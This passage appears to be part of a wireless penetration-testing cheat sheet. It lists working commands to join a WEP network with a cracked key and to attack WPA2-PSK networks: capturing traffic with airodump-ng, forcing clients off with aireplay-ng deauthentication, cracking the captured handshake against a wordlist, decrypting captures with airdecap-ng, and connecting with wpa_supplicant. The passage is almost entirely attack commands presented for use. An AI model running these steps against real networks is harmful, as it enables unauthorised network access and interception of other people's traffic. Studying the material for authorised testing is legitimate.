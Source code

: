 Connect to the network save the below params in file ‘wep.conf’

```
network={
  ssid="$ESSID"
  key_mgmt=NONE
  wep_key0=<$CRACKED_PASS>
  wep_tx_keyidx=0
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c wep.conf

# Request Ip in network from DHCP
dhclient wlan2 -v
```

## **Attacking WPA2-PSK**

```bash
# Discover and monitor all nearby access points
sudo airodump-ng wlan0

# monitor and capture specific access point using bssid (mac address)
sudo airodump-ng wlan0 --bssid <AP_BSSID> -c <chl no> -w <filename to same in all formats>

# Perform deauth attack and capture handshake
sudo aireplay-ng -0 10 -a <ap bssid> -c <any client mac id> wlan0

# crack captured handshake
aircrack-ng -w <passwordlist.txt> -b <ap bssid> <captured .cap file in airodump-ng>
```

If we have AP’s password we can decrypt cap file using airdecap-ng 

```bash
airdecap-ng -e <$AP_ESSID> -p <$Password> <captured_cap_file>
```

To connect to AP save the below params in file psk.conf

```bash
network={
    ssid="$ESSID"
    psk="$PASSWORD"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c psk.conf

# Request Ip in network from DHCP
dhclient wlan2 -v
```
